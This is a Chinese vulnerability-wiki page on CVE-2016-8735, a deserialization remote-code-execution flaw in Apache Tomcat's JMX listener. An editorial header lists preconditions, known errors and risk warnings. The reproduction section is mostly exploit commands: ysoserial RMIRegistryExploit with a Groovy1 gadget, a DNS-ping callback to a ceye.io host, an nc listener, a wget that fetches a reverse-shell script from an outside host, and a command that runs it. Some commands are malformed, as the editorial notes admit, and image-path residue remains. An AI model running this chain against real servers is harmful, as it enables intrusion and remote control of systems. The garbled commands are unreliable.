





# （CVE-2016-8735）Tomcat 反序列化漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：非默认远程JMX Listener启用可达、目标兼容JRE与Groovy gadget依赖
- 证据范围：配置listener本身不是完整根因，需说明JMX补丁/过滤链关系；3427是前置修补历史而非本篇主漏洞。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 10001/10002是示例配置端口，不是固定必需端口
- ping -c Groovy1.test...缺计数参数，和上方正确命令矛盾
- 端口Groovy1漏空格，外部back.py未提供内容/可靠来源
- 缺鉴权与classpath/JRE前提、修复版本和临时缓解
- 图片引用后重复路径残渣和孤立image

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。
- 涉及 LDAP/RMI/DNS/HTTP 外带：回连只证明相应网络交互，不能单独证明命令执行；使用自控接收端，避免把日志、凭据或真实业务数据发送给第三方。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

一、漏洞简介
------------

该漏洞与之前Oracle发布的mxRemoteLifecycleListener反序列化漏洞（CVE-2016-3427）相关，是由于使用了JmxRemoteLifecycleListener的监听功能所导致。而在Oracle官方发布修复后，Tomcat未能及时修复更新而导致的远程代码执行。
该漏洞所造成的最根本原因是Tomcat在配置JMX做监控时使用了JmxRemoteLifecycleListener的方法。

二、漏洞影响
------------

ApacheTomcat 9.0.0.M1 到9.0.0.M11 ApacheTomcat 8.5.0 到8.5.6
ApacheTomcat 8.0.0.RC1 到8.0.38 ApacheTomcat 7.0.0 到7.0.72 ApacheTomcat
6.0.0 到6.0.47

三、复现过程
------------

### 漏洞利用条件：

外部需要开启JmxRemoteLifecycleListener监听的10001和10002端口，来实现远程代码执行。

### 构造命令

Win ping一次命令：

    ping -n 1 qjkpla.ceye.io

Linux ping 一次命令：

    ping -c 1 qjkpla.ceye.io

利用Ceye回显看是否存在漏洞:

    java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit 漏洞IP 端口 Groovy1 "ping -c Groovy1.test.qjkpla.ceye.io"

Tomcat反序列化漏洞/media/rId26.png)

DNS回显能返回数据，说明执行了Ping命令，也就是说漏洞存在

Tomcat反序列化漏洞/media/rId27.png)

直接NC监听服务：

    nc -l -vv 12555

Tomcat反序列化漏洞/media/rId28.png)

然后构造命令：下载我们的反弹脚本:(之前用bash命令反弹没有成功所以使用Python脚本进行反弹)

    java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit 漏洞IP 端口 Groovy1 "wget http://rinige.com/back.py -O /tmp/x.py"

执行完此命令继续构造命令，去执行刚在wget的脚本

    java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit 漏洞IP 端口Groovy1 "python /tmp/x.py 反弹主机地址 反弹端口"

Tomcat反序列化漏洞/media/rId29.png)

成功反弹：

Tomcat反序列化漏洞/media/rId30.png)

image
